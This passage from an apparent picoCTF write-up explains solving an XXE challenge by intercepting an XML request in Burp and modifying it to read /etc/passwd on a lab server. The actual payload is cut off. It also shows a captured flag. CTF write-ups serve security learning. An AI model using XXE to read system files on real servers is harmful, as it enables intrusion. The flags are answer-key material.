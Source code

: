 <aside>
⛳

picoCTF{c1i3nt_s1d3_w3b_s0ck3t5_46c33d0c}

</aside>

---

## SOAP

### Description

> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
> 
> 
> [Web Portal](http://saturn.picoctf.net:56367/)
> 

### Understanding

- Basically, any WebApp when there is a feature of querying the data, it uses some techniques like SQL queries, JSON, XML and NoSQL queries etc.
- The title itself hints us that It’s using XML for some features(those that retrieve the data on user preference like check stock feature in E-commerce).
- So, putting it in mind, let’s proceed with XML External Injection.
- There is a feature called details which displays the data according to the Source code of WebApp.

### Solution

- Now, Intercept that req in Burpsuite, you will be able to see XML query in the request.
    
    ```xml
    POST /data HTTP/1.1
    Host: saturn.picoctf.net:56367
    Content-Length: 61
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    Content-Type: application/xml
    Accept: */*
    Sec-GPC: 1
    Accept-Language: en-US,en;q=0.9
    Origin: http://saturn.picoctf.net:56367
    Referer: http://saturn.picoctf.net:56367/
    Accept-Encoding: gzip, deflate, br
    Connection: close
    
    <?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
    ```
    
- Now, inject this in XML and make the request look like this(Use ***repeater*** tab)
    
    ```xml
    POST /data HTTP/1.1
    Host: saturn.picoctf.net:56367
    Content-Length: 132
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    Content-Type: application/xml
    Accept: */*
    Sec-GPC: 1
    Accept-Language: en-US,en;q=0.9
    Origin: http://saturn.picoctf.net:56367
    Referer: http://saturn.picoctf.net:56367/
    Accept-Encoding: gzip, deflate, br